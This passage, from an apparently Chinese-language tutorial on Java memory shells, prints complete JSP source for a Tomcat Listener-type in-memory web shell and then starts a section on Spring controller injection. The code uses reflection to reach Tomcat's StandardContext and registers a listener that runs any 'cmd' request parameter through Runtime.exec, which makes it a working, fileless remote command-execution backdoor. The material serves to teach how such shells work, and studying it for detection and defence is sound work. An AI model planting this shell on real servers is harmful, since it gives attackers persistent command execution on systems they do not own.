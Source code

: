 全部源代码：

```jsp
<%@ page import="org.apache.catalina.core.ApplicationContext" %>
<%@ page import="org.apache.catalina.core.StandardContext" %>
<%
    Object obj = request.getServletContext();
    java.lang.reflect.Field field = obj.getClass().getDeclaredField("context");
    field.setAccessible(true);
    ApplicationContext applicationContext = (ApplicationContext) field.get(obj);
    //获取ApplicationContext
    field = applicationContext.getClass().getDeclaredField("context");
    field.setAccessible(true);
    StandardContext standardContext = (StandardContext) field.get(applicationContext);
    //获取StandardContext
    ListenerDemo listenerdemo = new ListenerDemo();
    //创建能够执行命令的Listener
    standardContext.addApplicationEventListener(listenerdemo);
%>
<%!
    public class ListenerDemo implements ServletRequestListener {
        public void requestDestroyed(ServletRequestEvent sre) {
            System.out.println("requestDestroyed");
        }
        public void requestInitialized(ServletRequestEvent sre) {
            System.out.println("requestInitialized");
            try{
                String cmd = sre.getServletRequest().getParameter("cmd");
                Runtime.getRuntime().exec(cmd);
            }catch (Exception e ){
                //e.printStackTrace();
            }
        }
    }
%>
```

演示效果：

![截图](e086fe9f7d52ec4872ebff75db7018e7.png)

### 4、Spring controller型

具体关于Spring的内容参见第一部分的基础知识详解。 这里，简要的介绍一下什么是`controller`：

> 在 Spring MVC 中，@Controller 注解用于标识一个 Java 类是一个控制器。控制器负责接收请求、处理请求，并返回响应。具体来说，使用 @Controller 注解的类将会被 Spring MVC 自动扫描，并注册为一个控制器。
>
> {: .prompt-tip}

通用的注入技术点有以下几个部分：

- 在不使用注解和修改配置文件的情况下，使用纯 java 代码来获得当前代码运行时的上下文环境； 获取`ApplicationContext`
